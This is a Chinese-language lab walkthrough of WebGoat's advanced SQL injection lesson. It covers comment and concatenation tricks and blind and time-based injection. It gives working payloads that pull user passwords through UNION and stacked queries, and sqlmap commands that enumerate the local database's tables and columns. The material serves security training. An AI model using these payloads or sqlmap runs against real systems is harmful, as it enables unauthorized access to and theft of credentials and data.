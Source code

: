 # SQL 注入(高级)

这一课程主要介绍了 SQL 语句连接和盲注技巧。

## 其他构造方法

SQL 的注释有：
```
/* */ 	 are inline comments
-- , # 	 are line comments

Example: Select * from users where name = 'admin' --and pass = 'pass'
```

此外，使用分号可以连接多个语句。

```
',+,||	 allows string concatenation
Char()	 strings without quotes

Example: Select * from users where name = '+char(27) or 1=1
```

还有 Union 和 Join 子句的使用。

### 盲注

普通注入往往返回了足够的错误信息。如果没有返回足够的信息，就只能开始尝试盲注。

盲注时，可以使用 `1 and 1=1` 来开始注入，如果结果和 `1` 一样，而 `1 and 1=2`没有结果时，则有注入的可能性。比如 `1 and substring(database_version(),1,1) = 2` 等。

另外有一种基于时间的盲注，例如 `article = 4; sleep(10) --` ，如果没有一点信息，则可以从这里入手。


## Task 1

根据题干发现是注入在 Name 位置，首先开始注入：

```
' or '1' = 1 --
```

得到查询的结构和一个用户名。

而后我们再构造：

```
' or 1=1 union select userid,user_name,password,null,null,null,null from user_system_data --
```

来取得答案，或者利用

```
'; select * from user_system_data --
```

## Task 2


首先：
``` bash
python sqlmap.py --cookie "JSESSIONID=E631A687C2F456BC15FD067950B3290B" -u http://127.0.0.1:8080/WebGoat/SqlInjection/challenge --data "username_reg=a1&email_reg=aaa%40bbb.ccc&password_reg=1&confirm_password_reg=1" --method "PUT"
```

返回结果发现数据库是 HSQLDB。

下面来查询当前数据库：

``` bash
python sqlmap.py --cookie "JSESSIONID=E631A687C2F456BC15FD067950B3290B" -u http://127.0.0.1:8080/WebGoat/SqlInjection/challenge --data "username_reg=a1&email_reg=aaa%40bbb.ccc&password_reg=1&confirm_password_reg=1" --method "PUT" -p "username_reg" --current-db
```

返回数据库为 `PUBLIC` 。查询表：

``` bash
python sqlmap.py --cookie "JSESSIONID=E631A687C2F456BC15FD067950B3290B" -u http://127.0.0.1:8080/WebGoat/SqlInjection/challenge --data "username_reg=a1&email_reg=aaa%40bbb.ccc&password_reg=1&confirm_password_reg=1" --method "PUT" -p "username_reg" -D 'PUBLIC' -tables
```

返回的 Tables 有：

```
[19 tables]
+-----------------------------------+
| TRANSACTI\n\n\n                   |
| USER_DATA\n\n\n\n                 |
| USER_LOGI\n                       |
| WEATHER_D\n\n\n                   |
| AUTH                              |
| CHALLENGE_USERS_6AEJCVGKYWJBWLUEP |
| EMPLOYEE                          |
| JWT_KEYS                          |
| MESSAGES                          |
| MFE_IMAGES                        |
| OWNERSHIP                         |
| PINS                              |
| PRODUCT_SYSTEM_DATA               |
| ROLES                             |
| SALARIES                          |
| SERVERS                           |
| TAN                               |
| USER_DATA                         |
| USER_SYST                         |
+-----------------------------------+
```

在猜测 USER_DATA 中数据：
```
python sqlmap.py --cookie "JSESSIONID=E631A687C2F456BC15FD067950B3290B" -u http://127.0.0.1:8080/WebGoat/SqlInjection/challenge --data "username_reg=a1&email_reg=aaa%40bbb.ccc&password_reg=1&confirm_password_reg=1" --method "PUT" -p "username_reg" -D 'PUBLIC' -T 'CHALLENGE_USERS_6AEJCVGKYWJBWLUEP' --columns
```

获得有如下字段：

```
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | non-numeric |
| password | non-numeric |
| today    | numeric     |
| userid   | non-numeric |
+----------+-------------+
```
